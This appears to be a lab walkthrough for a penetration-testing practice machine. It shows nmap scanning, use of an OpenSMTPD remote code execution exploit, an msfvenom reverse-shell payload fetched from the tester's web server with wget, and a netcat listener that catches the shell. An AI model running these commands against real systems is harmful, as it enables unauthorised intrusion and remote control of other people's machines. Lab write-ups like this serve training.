





Foothold

Foothold 

1. Get closed and open ports using SYN Stealth scan. 
`sudo nmap -p- 192.168.182.71`


We find open ports 22,25,445. Port 53 is closed


2. Scan only the open ports (22,25,445) for service detection
`sudo nmap -p22,25,80,445 -sV 192.168.182.71`


We find that port 25 OpenSMTPD is missing the version number still. Port 445 only has a range of version number 3.x - 4.x


3. Run aggressive scan on the open ports
`sudo nmap -p22,25,80,445 -A 192.168.182.71`



We see versions:
-OpenSMPTD 2.0.0
-Samba smbd 4.7.6-Ubuntu


4. Run the Nmap NSE scripts for default,safe,auth,vuln
`sudo nmap -p22,25,80,445 --script default,safe,auth,vuln, 192.168.182.71`



5. searchsploit opensmtpd
`searchsploit opensmtpd`



6. Download the 47984 remote code execution exploit
`searchsploit -m 47984`


7. Run to find out usage
```plaintext
python3 47984.py
kali@kali:~/gitWorkspace/pgp/Bratarina$ python3 47984.py 
Usage 47984.py <target ip> <target port> <command>
E.g. 47984.py 127.0.0.1 25 'touch /tmp/x'
```


8. See if it will connect to our Kali machine to download a simple file hello.txt

-this exploit did not work on default port 8000 for python3 -m http.server
-staged payload did not work


9. Start apache server on Kali
`sudo systemctl start apache2`


10. Run the exploit which attempts to access hello.txt on Kali
`python3 47984.py 192.168.200.71 25 'wget 192.168.49.200/hello.txt'`


11. Verify that the request was made on Apache log
`sudo tail /var/log/apache2/access.log`


12. Create payload. We see the following listed as a Linux payload on https://book.hacktricks.xyz/shells/shells/untitled
`msfvenom -a x64 --platform Linux -p linux/x64/shell_reverse_tcp lhost=192.168.49.200 lport=445 -f elf > linux_x64_shellReverseTcp_192.168.49.200_445.elf`


13. Move the payload to Apache /var/www/html
`sudo mv linux_x64_shellReverseTcp_192.168.49.200_445.elf /var/www/html`


14. Restart Apache
`sudo systemctl start apache2`


15. Attempt to download the payload
`python3 47984.py 192.168.200.71 25 'wget 192.168.49.200/linux_x64_shellReverseTcp_192.168.49.200_445.elf'`


16. Verify it was downloaded
`sudo cat /var/log/apache2/access.log`


17. Make the payload executable
`python3 47984.py 192.168.200.71 25 'chmod +x linux_x64_shellReverseTcp_192.168.49.200_445.elf'`


18. Start a netcat listener on Kali port 445
`sudo nc -lnvp 445`


19. We have caught a shell

